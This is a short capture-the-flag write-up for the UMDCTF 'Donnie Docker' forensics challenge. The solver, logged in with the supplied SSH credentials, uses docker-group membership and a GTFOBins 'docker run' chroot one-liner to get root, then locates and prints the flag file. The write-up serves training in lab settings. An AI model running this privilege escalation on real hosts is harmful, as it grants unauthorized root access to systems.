 # Donnie Docker | Forensics

### Solution

From ctf description we have got credentials to ssh connection:
```bash
$ ssh user@chals2.umdctf.io -p 5000
password: umdctf
```

After successful login with given credentials, I saw docker machine.<br>
Firstly I checked some basic stuff I am ( **pwd** command ) and to which groups I belong ( **id** command ).<br>
```bash
$ pwd
/home/user

$ id
uid=1000(user) gid=1000(user) groups=1000(user), 999(docker)
```

I saw that I belong to **docker** group, so I follow this lead. I assume If I am in this group I probably could use docker commands. From previous ctf's I known some cool [website](https://gtfobins.github.io/gtfobins/docker/#shell) where I found how to get root shell with privileges to run docker

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Running command above resulted with root account that gives me access to everything inside docker container. <br>

Now I have to find file with flag.
```bash
$ file / -name *.txt 2>/dev/null
...
/var/lib/docker/vfs/dir/c53fadd9c7a3f33d711b573de585b367e45d6a4de64e677ab8ffc1bf6112fbff/flag.txt  
/var/lib/docker/vfs/dir/c53fadd9c7a3f33d711b573de585b367e45d6a4de64e677ab8ffc1bf6112fbff-init/flag.txt  
/var/lib/docker/vfs/dir/9a2432327f4d149162a06da63a797e0b88a8c2bccac598f262ebb6d073b9ecda/flag.txt

$ cat /var/lib/docker/vfs/dir/9a2432327f4d149162a06da63a797e0b88a8c2bccac598f262ebb6d073b9ecda/flag.txt
UMDCTF-{h1dd3n_1m@g35}
```


### Flag

UMDCTF-{h1dd3n_1m@g35}

#### Credits

- Writeup by [HuntClauss](https://ctftime.org/user/106464)
- Solved by [HuntClauss](https://ctftime.org/user/106464)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + HuntClauss
